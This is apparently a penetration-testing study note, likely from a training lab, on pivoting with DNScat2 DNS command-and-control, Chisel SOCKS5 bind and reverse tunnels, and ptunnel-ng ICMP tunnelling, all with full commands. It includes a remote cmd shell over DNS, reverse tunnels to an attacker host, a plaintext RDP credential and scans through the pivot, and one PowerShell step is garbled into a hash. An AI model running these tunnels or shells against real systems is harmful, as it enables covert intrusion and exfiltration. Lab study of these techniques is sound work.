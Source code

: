 ## #DNS tunnelling with [DNScat2](https://github.com/iagox86/dnscat2)
Uses DNS protocol to send data between 2 hosts, 
Uses an encrypted C2 channel. 
Sends data inside txt records. 
Can be extremely stealthy 

### Setup 
```shell
git clone https://github.com/iagox86/dnscat2.git
```
Set Up 
```shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
### Target SetUp
Need to provide the private key to the Windows Host, to encrypt data. 
Can use the client provided DNScat or use [dnscat2 with powershell](https://github.com/lukebaggett/dnscat2-powershell)
```shell
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
```powershell
Import-Module .\dnscat2.ps1
```
```powershell

0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
#### Check Session established 
```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

### Using DNS Cat 
```shell
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

## #SOCKS5 #Tunnelling with [Chisel](https://github.com/jpillora/chisel)
### Bind Shell
#### Setting up Chisel 
```shell
git clone https://github.com/jpillora/chisel.git
```
#### Build the library
```shell
cd chisel
go build
```
#### Transfer Chisel Binary on Pivot Host 
```shell
scp chisel ubuntu@10.129.202.64:~/
```
#### Run Chisel on the host 
```shell
./chisel server -v -p 1234 --socks5
```
#### Connect to the Chisel server from attacking machine 
```shell
./chisel client -v 10.129.202.64:1234 socks
```
#### Edit /etc/proxychains.conf
```shell
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```
#### Usage example 
```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
### Reverse Shell
On local machine 
```shell
sudo ./chisel server --reverse -v -p 1234 --socks5
```

On Pivot host 
```shell
./chisel client -v 10.10.14.17:1234 R:socks
```

proxychains.conf
```shell
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

## #ICMP Tunnelling with SOCKS
Encapsulates packets with ICMP packets and echo requests + responses
Only works when ping requests are allowed 
### ptunnel-ng
```shell
git clone https://github.com/utoni/ptunnel-ng.git
```
Build the Tunnel 
```shell
sudo ./autogen.sh 
```
Copy to pivot host 
```shell
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```
Start the tunnel server on the target host 
```shell
/src sudo ./ptunnel-ng -r<pivotIP NoSpace> -R22
```
Connect to the tunnel from the attack host 
```shell
sudo ./ptunnel-ng -p<pivotIP NoSpace> -l2222 -r<local ip> -R22
```
### Tunneling ssh through ICMP 
```shell
ssh -p2222 -lubuntu 127.0.0.1
```
### Enable dynamic port forwarding over #ssh 
```shell
ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```
#### #Proxychaining 
```shell
proxychains nmap -sV -sT 172.16.5.19 -p3389
```

